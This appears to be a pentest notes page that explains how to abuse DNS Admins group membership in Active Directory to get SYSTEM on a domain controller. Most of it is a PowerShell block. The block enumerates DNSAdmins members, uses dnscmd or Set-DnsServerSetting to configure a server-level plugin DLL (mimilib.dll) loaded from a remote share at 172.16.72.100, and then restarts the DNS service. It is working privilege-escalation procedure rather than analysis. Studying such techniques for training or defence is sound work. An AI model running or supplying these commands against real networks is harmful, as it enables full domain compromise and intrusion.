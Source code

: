 # DNS Admins

Using DNS Admins for privilege escalation in Active Directory with PowerView and Mimikatz. The technique abuses the privileges given by default to the members of the DNS Admins group.

{% hint style="danger" %}
**OPSEC NOTE :** this technique is very risky and easily detectable as it requires a restart in DNS service.&#x20;
{% endhint %}

### <mark style="color:orange;">Conditions</mark>

* <mark style="color:green;">**Members of the DNS Admins group can load arbitrary DLL’s with the privileges of dns.exe (SYSTEM)**</mark>
* <mark style="color:green;">**If the DC serves as DNS server, we can escalate to DA**</mark>
* <mark style="color:green;">**But: need to be able to restart the DNS on the DC !!!**</mark>

### <mark style="color:orange;">Exploitation</mark>

The attack vector consists of injecting a malicious DLL into the DNS process running as a System to escalate when the service restarts.

```powershell
# Enumerate members of DNSAdmins group
# Using PowerView 3.0
Get-DomainGroupMember "DNSAdmins"

# Using AD Module
Get-ADGroupMember -Identity "DNSAdmins"

# With privileges of DNSAdmins member, e.g. through PTH, configure DLL
# Using dnscmd.exe (needs RSAT DNS)
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.72.100\dll\mimilib.dll

# Using DNSServer module (needds RSAT DNS)
$dnsettings = Get-DNSServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.72.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose

# Restart DNS service
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```
